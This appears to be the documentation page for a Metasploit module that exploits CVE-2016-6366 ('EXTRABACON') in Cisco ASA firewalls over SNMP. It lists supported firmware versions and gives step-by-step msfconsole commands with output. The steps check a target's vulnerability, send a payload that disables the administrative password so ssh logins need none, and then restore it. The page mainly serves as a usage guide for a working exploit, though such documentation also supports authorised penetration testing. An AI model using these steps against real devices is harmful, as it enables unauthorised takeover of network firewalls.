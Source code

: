 ## General notes

This is using improved shellcode, has less stages than the Equation Group
version making it more reliable. This makes the SNMP payload packet ~150 less
bytes. Also, the leaked version only supports 8.x, we have it working on 9.x
versions.

To add more version specific offsets, more details and a Lina file offset
finder are available at:

https://github.com/RiskSense-Ops/CVE-2016-6366

## Partial list of supported versions
------------------------------------------------------------
All of the leaked versions are available in the module

- 8.x
- 8.0(2)
- 8.0(3)
- 8.0(3)6
- 8.0(4)
- 8.0(4)32
- 8.0(5)
- 8.2(1)
- 8.2(2)
- 8.2(3)
- 8.2(4)
- 8.2(5)
- 8.2(5)33 `*`
- 8.2(5)41 `*`
- 8.3(1)
- 8.3(2)
- 8.3(2)39 `*`
- 8.3(2)40 `*`
- 8.3(2)-npe `*` `**`
- 8.4(1)
- 8.4(2)
- 8.4(3)
- 8.4(4)
- 8.4(4)1 `*`
- 8.4(4)3 `*`
- 8.4(4)5 `*`
- 8.4(4)9 `*`
- 8.4(6)5 `*`
- 8.4(7) `*`
- 9.x
- 9.0(1) `*`
- 9.1(1)4 `*`
- 9.2(1) `*`
- 9.2(2)8 `*`
- 9.2(3) `*`
- 9.2(4) `*`
- 9.2(4)13 `*`

`*` new version support not part of the original Shadow Brokers leak

`**` We currently can't distinguish between normal and NPE versions from the SNMP strings. We've commented out the NPE offsets, as NPE is very rare (it is for exporting to places where encryption is crappy), but in the future, we'd like to incorporate these versions. Perhaps as a bool option?

## Verification Steps

- Start `msfconsole`
- `use auxiliary/admin/networking/cisco_asa_extrabacon`
- `set RHOST x.x.x.x`
- `check`
- `run`
- ssh admin@x.x.x.x, you will not need a valid password
- `set MODE pass-enable`
- `run`
- ssh admin@x.x.x.x, ensure fake password does not work

## Checking for a vulnerable version

```
msf > use auxiliary/admin/networking/cisco_asa_extrabacon
msf auxiliary(cisco_asa_extrabacon) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(cisco_asa_extrabacon) > check

[+] Payload for Cisco ASA version 8.2(1) available!
[*] 192.168.1.1:161 The target appears to be vulnerable.
```

## Disabling administrative password

```
  msf auxiliary(cisco_asa_extrabacon) > set
set ACTION            set ConsoleLogging    set Prompt            set RHOST             set TimestampOutput
set CHOST             set LogLevel          set PromptChar        set RPORT             set VERBOSE
set COMMUNITY         set MODE              set PromptTimeFormat  set SessionLogging    set VERSION
set CPORT             set MinimumRank       set RETRIES           set TIMEOUT           set WORKSPACE
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-
  set MODE pass-disable  set MODE pass-enable
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-disable
MODE => pass-disable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-disable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[!] Don't forget to run pass-enable after logging in!
[*] Auxiliary module execution completed
```

## Re-enabling administrative password

```
msf auxiliary(cisco_asa_extrabacon) > set MODE pass-enable
MODE => pass-enable
msf auxiliary(cisco_asa_extrabacon) > run

[*] Building pass-enable payload for version 8.2(1)...
  [*] Sending SNMP payload...
  [+] Clean return detected!
[*] Auxiliary module execution completed
```
